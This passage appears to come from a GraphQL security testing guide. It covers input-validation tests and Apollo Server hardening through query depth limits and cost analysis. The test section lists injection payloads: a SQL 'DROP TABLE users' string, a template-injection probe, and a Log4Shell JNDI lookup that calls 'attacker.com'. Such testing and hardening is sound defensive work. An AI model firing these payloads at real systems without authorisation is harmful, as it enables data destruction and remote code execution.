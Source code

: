 
### 4. Input Validation Testing

```graphql
# Test various injection payloads
query InjectionTest($input: String!) {
  search(query: $input) {
    results
  }
}

# Test with variables:
{
  "input": "'; DROP TABLE users; --"
}
{
  "input": "{{7*7}}"
}
{
  "input": "${jndi:ldap://attacker.com/a}"
}
```

## Security Best Practices

### 1. Query Security

- **Implement Query Depth Limiting**
  ```javascript
  const depthLimit = require('graphql-depth-limit');
  
  const server = new ApolloServer({
    typeDefs,
    resolvers,
    validationRules: [depthLimit(7)]
  });
  ```

- **Query Complexity Analysis**
  ```javascript
  const costAnalysis = require('graphql-cost-analysis');
  
  const server = new ApolloServer({
    typeDefs,
    resolvers,
    plugins: [
      costAnalysis({
        maximumCost: 1000,
        onComplete: (cost) => {
          console.log(`Query cost: ${cost}`);
        }
      })
    ]
  });
  ```
